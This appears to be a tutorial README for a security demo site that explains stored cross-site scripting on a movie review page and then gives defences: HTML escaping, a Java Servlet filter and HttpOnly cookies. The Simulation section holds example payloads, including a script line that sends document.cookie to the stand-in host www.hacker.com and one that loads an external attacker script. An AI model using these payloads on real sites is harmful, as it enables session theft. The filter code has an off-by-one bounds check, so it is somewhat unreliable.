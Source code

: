 # XSS (Cross-Site Scripting)

## Introduction

Another attack similar to SQL injection attack is called XSS(Cross-Site Scripting) attack. 
SQL injection is mainly used to manipulate the database on server side, whereas XSS attack
is used for doing malicious operations in the front end. For example, attacker will enter some
JavaScript codes in the input box. If the website don't validate what user inputs. It will 
store that JavaScript codes in database. Next time when other user looks up that website, 
the JavaScript codes will be loaded in that web page and executed. Usually, it will steal other user's 
cookies or do CSRF (Cross-site request forgery) attack.

## Simulation

To simulate XSS attack, we develop a basic scenes in the tab demo website. You can click "XSS" tab 
to view it.

Now we have a web page for user to write review for a movie. In "Review List" part, there is 
a review input box and a button for confirmation. User will enter a review and click that button
to make comments.

Usually, user will enter a review in the form of String. However, attacker will enter a script in it.
For example, `<script>alert("You are hack!")</script>`. If front end and back end don't validate review string,
it will store it into database directly (On Backend: 'review' Database Side). Next time when other user looks up review list,
the review list HTML structure will be like this:

```html
<ul>
    <li>A nice movie</li>
    <li>That movie is so fun</li>
    <li><script>alert("You are hack!")</script></li>
</ul>
```

Then an alert will pop up and say "You are hack!".

In addition to this simple JavaScript codes, attacker can use this vulnerability to forge 
a HTTP request with code by stealing user's cookies:

```html
<script>sendHTTPRequest("www.hacker.com", document.cookie)</script>
```

Or load attacker whole script from outside:

```html
<script src="www.hacker.com/main.js"></script>
```


## Solution

Main idea of avoiding XSS attack is to filter invalid keywords in front end and back end.

### Front end

For the front end, we usually use escape character to replace sensitive characters. For example,

```
< turn to &lt;

> turn to &gt;

& turn to &amp;

" turn to &quot;

' turn to &#39
```

### Back end

If back end uses Java Servlet, we can develop a Class called XssFilter and let it implement `Filter` class.

```java
public class XssFilter implements Filter {

    public void init(FilterConfig config) throws ServletException {}

    public void doFilter(
        ServletRequest request, 
        ServletResponse response, 
        FilterChain chain) throws IOException, ServletException {
        // Get Request
        XssHttpServletRequestWrapper request = new XssHttpServletRequestWrapper((HttpServletRequest)request);
        // Filter invalid keywords
        chain.doFilter(request, response);
    }

    public void destroy() {}
}
```

```java
public class XssHttpServletRequestWrapper extends HttpServletRequestWrapper {
    HttpServletRequest orgRequest = null;

    public XssHttpServletRequestWrapper(HttpServletRequest request) {
        super(request);
        orgRequest = request;
    }
    
    @Override
    public String getParameter(String name) {
        String value = super.getParameter(xssEncode(name));
        if (value != null) {
            value = xssEncode(value);
        }
        return value;
    }
    
    @Override
    public String getHeader(String name) {
        String value = super.getHeader(xssEncode(name));
        if (value != null) {
            value = xssEncode(value);
        }
        return value;
    }
    
    // Replace invalid character to another character
    private static String xssEncode(String s) {
        if (s == null || s.isEmpty()) {
            return s;
        }
        StringBuilder sb = new StringBuilder(s.length() + 16);
        for (int i = 0; i < s.length(); i++) {
            char c = s.charAt(i);
            switch (c) {
            case '>':
                sb.append('＞');
                break;
            case '<':
                sb.append('＜');
                break;
            case '\'':
                sb.append('‘');
                break;
            case '\"':
                sb.append('“');
                break;
            case '&':
                sb.append('＆');
                break;
            case '\\':
                sb.append('＼');
                break;
            case '#':
                sb.append('＃');
                break;
            case '%':
                processUrlEncoder(sb, s, i);
                break;
            default:
                sb.append(c);
                break;
            }
        }
        return sb.toString();
    }
    
    
    public static void processUrlEncoder(StringBuilder sb, String s, int index){
        if(s.length() >= index + 2){
            if(s.charAt(index+1) == '3' && (s.charAt(index+2) == 'c' || s.charAt(index+2) == 'C')){    // %3c, %3C
                sb.append('＜');
                return;
            }
            if(s.charAt(index+1) == '6' && s.charAt(index+2) == '0'){    // %3c (0x3c=60)
                sb.append('＜');
                return;
            }            
            if(s.charAt(index+1) == '3' && (s.charAt(index+2) == 'e' || s.charAt(index+2) == 'E')){    // %3e, %3E
                sb.append('＞');
                return;
            }
            if(s.charAt(index+1) == '6' && s.charAt(index+2) == '2'){    // %3e (0x3e=62)
                sb.append('＞');
                return;
            }
        }
        sb.append(s.charAt(index));
    }
    
    // Method to get origin request
    public HttpServletRequest getOrgRequest() {
        return orgRequest;
    }
    
    public static HttpServletRequest getOrgRequest(HttpServletRequest req) {
        if (req instanceof XssHttpServletRequestWrapper) {
            return ((XssHttpServletRequestWrapper) req).getOrgRequest();
        }
        return req;
    }
}
```

### Cookies

To prevent from stealing user's cookies, we can add HttpOnly property for the cookies,
then JavaScript can't read user's cookies.

```java
cookie.setHttpOnly(true);
```
